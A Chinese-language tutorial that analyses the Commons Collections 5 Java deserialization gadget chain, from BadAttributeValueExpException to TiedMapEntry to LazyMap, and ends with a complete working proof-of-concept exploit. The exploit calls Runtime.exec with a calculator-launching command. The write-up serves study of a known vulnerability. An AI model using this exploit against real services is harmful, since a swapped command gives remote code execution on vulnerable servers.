


# CommonsCollections5 利用链分析

## 前言

今天接着学习`CommonsCollections5`利用链，利用环境如下：
```
CommonsCollections 3.1 - 3.2.1
JDK 8u76之前
```

`ysoserial`给出的利用链如下：

```
Gadget chain:
        ObjectInputStream.readObject()
            BadAttributeValueExpException.readObject()
                TiedMapEntry.toString()
                    LazyMap.get()
                        ChainedTransformer.transform()
                            ConstantTransformer.transform()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Class.getMethod()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.getRuntime()
                            InvokerTransformer.transform()
                                Method.invoke()
                                    Runtime.exec()
```

前面的`BadAttributeValueExpException`和`TiedMapEntry`倒是新知识，后面的则是前面`CommonsCollections1`的内容。看样子这条链子是找了其他能触发`LazyMap#get()`的方法。
## 利用链分析

按照利用链跟进能触发`LazyMap#get()`方法的`TiedMapEntry`类的`toString()`方法


跟进`getValue()`方法源码


可以看到调用了`map.get()`方法，而`map`是通过构造方法传入的值，完全可控。接下来就是找到能触发`TiedMapEntry#toString()`方法的地方，在`CommonsCollections5`用到的是`BadAttributeValueExpException`类，跟进该类的`readObject()`方法


其中`valObj`是从成员属性取的`val`，而`val`我们可以通过反射控制，因此成为可控点。并且`System.getSecurityManager()`方法默认为`null`，因此可以进入`else if`条件触发`valObj.toString();`

开始编写 POC
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/10/11 11:34
 */
public class CommonsCollections5 {
    public static void main(String[] args) throws Exception{
        CommonsCollections5 commonsCollections5 = new CommonsCollections5();
        commonsCollections5.serialize();
        commonsCollections5.unserialize();
    }

    /*
     * 客户端
     * */
    public void  serialize() throws Exception{
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);

        Map innerMap = new HashMap<>();
        Map outerMap = LazyMap.decorate(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(outerMap, 666);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(1);
        // 反射修改
        Field val = Class.forName("javax.management.BadAttributeValueExpException").getDeclaredField("val");
        val.setAccessible(true);
        val.set(badAttributeValueExpException, tiedMapEntry);
        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
        out.writeObject(badAttributeValueExpException);
    }

    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```


